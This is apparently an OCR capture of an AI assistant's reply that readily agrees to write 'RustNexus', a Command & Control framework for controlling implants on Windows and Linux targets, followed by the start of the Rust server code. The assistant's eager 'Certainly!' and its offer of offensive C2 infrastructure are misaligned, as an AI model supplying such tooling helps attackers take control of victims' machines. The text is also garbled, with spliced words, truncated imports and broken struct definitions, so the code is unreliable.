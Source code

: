 Certainly! I'll help you create a cross-platform Command & Control framework in Rust that works on both Windows and Linux targets. Drawing from modern C2 development practices and Rust's powerful features, here's a comprehensive solutionustNexus is a modern, high-performance Command & Control (C2) framework built in Rust. It provides secure communication channels between the server and implants, with cross-platform support for Windows and Linux targets. The framework leverages Rust's memory to create a reliable and efficient C2 infrastructure.

[CODE_NAME]
RustNexus

```rust
// SERVER COMPONENT - src/main.rs
use std::collections::HashMap;
use std::net::{TcpListener, TcpStream};
use std::sync::{Arc, Mutex};
use std::thread;
use std::time::{Duration, SystemTime};
use serde::{Deserio::runtime::Runtime;
use uuid::Uuid;
use aes_gcm::{Aes256Gcm, Key, Nonce};
use aead::{Aead, NewAead};
use rand::Rng;
use engine::general_purpose};

// Message types for C2 communication
#[derive(Serialize, Deser MessageType {
    Registration,
    Heartbeat,
    TaskAssignment,
    TaskDownload,
}

#[derive(Serialize, Deserialize, Debug, Clone)]
struct Message {
    id: String,
    msg_type: MessageType,
    timestamp: u64,
    content: String,
    agent_id: Option<String>,
})]
struct Agent {
    id: String,
    hostname: String,
    os_type: String,
    ip_address: String,
    last_seen: u64,
    tasks: Vec<String>,
    
}

struct Server {
    agents: Arc<Mutex<HashMap<String, Agent>>>,
    encryption_key: [u8; 32],
}

impl Server {
    fn new() -> Self {
        let mut rng = rand:: key = [0u8; 32];
        rng.fill(&mut key);
        
        Server {
            agents: Arc::new(Mutex::new(HashMap::new())),
            encryption_key: key,
        }
    }str) -> String {
```